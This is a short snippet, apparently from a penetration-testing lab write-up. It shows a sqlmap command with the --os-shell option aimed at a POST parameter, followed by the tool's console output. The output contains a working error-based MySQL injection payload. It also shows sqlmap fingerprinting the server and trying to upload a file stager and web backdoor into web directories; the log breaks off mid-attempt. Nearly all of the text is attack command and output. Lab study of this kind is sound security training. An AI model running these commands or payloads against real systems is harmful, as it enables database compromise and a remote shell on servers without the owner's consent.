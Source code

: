 _Prompt for an interactive operating system shell_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --os-shell`:
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:50:16 /2024-11-26/

[18:50:16] [INFO] parsing HTTP request from './request.txt'
[18:50:16] [INFO] resuming back-end DBMS 'mysql' 
[18:50:16] [INFO] testing connection to the target URL
got a 307 redirect to 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] N
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: words_exact (POST)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2
---
[18:50:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:50:19] [INFO] going to use a web backdoor for command prompt
[18:50:19] [INFO] fingerprinting the back-end DBMS operating system
[18:50:20] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] Y
[18:50:27] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 

[18:50:31] [INFO] retrieved web server absolute paths: '/dosearch~.php'
[18:50:31] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:50:31] [WARNING] potential permission problems detected ('Access denied')
[18:50:33] [WARNING] unable to upload the file stager on '/var/www/'
[18:50:33] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
```